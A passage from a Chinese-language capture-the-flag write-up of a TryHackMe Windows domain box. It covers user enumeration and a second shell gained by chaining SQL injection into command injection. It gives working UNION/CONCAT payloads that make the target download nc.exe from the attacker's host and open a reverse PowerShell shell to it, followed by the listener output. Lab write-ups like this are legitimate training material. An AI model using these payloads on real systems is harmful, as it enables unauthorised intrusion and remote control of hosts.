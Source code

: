 PS C:\Users\agamemnon\Desktop\WebApp\public> whoami
whoami
troy\agamemnon

```

在```C:\Users\agamemnon\Desktop```拿到用户```agamemnon```的flag


查看一共有多少个用户
```
PS C:\> net users
net users

User accounts for \\TROY-DC

-------------------------------------------------------------------------------
achilles                 Administrator            agamemnon                
Guest                    hector                   helen                    
krbtgt                   patrocles                

```

传winPEASx64.exe枚举，几乎没有什么有用的信息 

## 第二个shell

由于我们之前已经知道81端口存在一个sql注入，观察这个webapp的功能，如果我们能够改变host表ip这个字段的值，那么我们同样也可以利用命令行注入拿到另外一个shell

经过多翻测试，当前账号没有权限插入和修改数据库里的数据

这里使用CONCAT函数把注入命令当做一个字符串拼接到返回的结果当中，因为id=9999查询不到数据，返回的是一个空串，UNION把结果和"|ipconfig"连接在了一起，所以程序最后执行的命令是```ping |ipconfig```

payload如下：
```id=9999 UNION SELECT NULL,CONCAT("|","ipconfig")-- -```
注入用burpsuite时上面的payload要用urlencode加密一下，否则会报400

由于我们现在已经可以注入命令，像前面那个shell一样我们把nc.exe传到靶机，然后再攻击机开启监听，拿到反弹shell

### 传nc.exe
```id=9999 UNION SELECT NULL,CONCAT("|","powershell curl 10.13.21.169:8000/nc.exe -o nc.exe")-- -```

### 本地监听
```nc -lnvp 4444```

### 反弹
```id=9999 UNION SELECT NULL,CONCAT("|","nc.exe 10.13.21.169 4444 -e powershell")-- -```

### 拿shell
```
──(root💀kali)-[~/tryhackme/hackerhill]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.48.179] 52658
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.
